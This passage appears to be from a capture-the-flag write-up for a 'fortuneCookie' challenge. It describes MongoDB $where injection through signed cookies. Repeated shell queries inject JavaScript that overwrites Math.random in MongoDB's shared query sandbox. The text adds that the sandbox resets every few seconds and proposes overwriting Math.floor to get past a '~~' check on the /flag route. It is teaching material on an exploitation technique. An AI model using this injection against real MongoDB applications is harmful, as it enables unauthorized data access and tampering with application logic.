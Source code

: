 ```js
            );
        client.close();
    });
});
```

when we generate a req.signedCookies contain `$where` key , it will  pass either a string containing a JavaScript expression or a full JavaScript function to the query system. .

It seems like overwritten global object are recovered after some period

```
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c8fb915ac00ea935416"), "author" : "admin", "content" : "admin1" }
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c8fb915ac00ea935416"), "author" : "admin", "content" : "admin1" }
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c8fb915ac00ea935416"), "author" : "admin", "content" : "admin1" }
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c8fb915ac00ea935416"), "author" : "admin", "content" : "admin1" }
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
> db.posts.find({ $where: "Math.random() === 2 ? 1 : (() => { Math.random = () => { return 2; }; return 0;})()"})
{ "_id" : ObjectId("5edb4c94b915ac00ea935417"), "author" : "admin", "content" : "admin2" }
```

> MongoDB uses the same sandbox for queries . It has a reset cycle every 3-5 seconds , but it has the potential to abuse it. —— posix

For this reason , you should try serveral times to overwrite `Math.floor()`

Then  you can bypass the restrict,  the double telde `~~` means that double NOT bitwise operator , it is used as [a faster substitute for Math.floor()](http://rocha.la/JavaScript-bitwise-operators-in-practice)

> It removes everything after the decimal point because the bitwise operators implicitly convert their operands to signed 32-bit integers. This works whether the operands are (floating-point) numbers or strings, and the result is a number. @[PleaseStand](https://stackoverflow.com/users/430775/pleasestand)

```js
app.get('/flag', (req, res) => {

    let { favoriteNumber } = req.query;
    favoriteNumber = ~~favoriteNumber;

    if (!favoriteNumber) {
        res.send('Please Input your <a href="?favoriteNumber=1337">favorite number</a> 😊');
    } else {

        const client = new MongoClient(MONGO_URL, { useNewUrlParser: true });

        client.connect(function (err) {

            if (err) throw err;

            const db = client.db('fortuneCookie');
```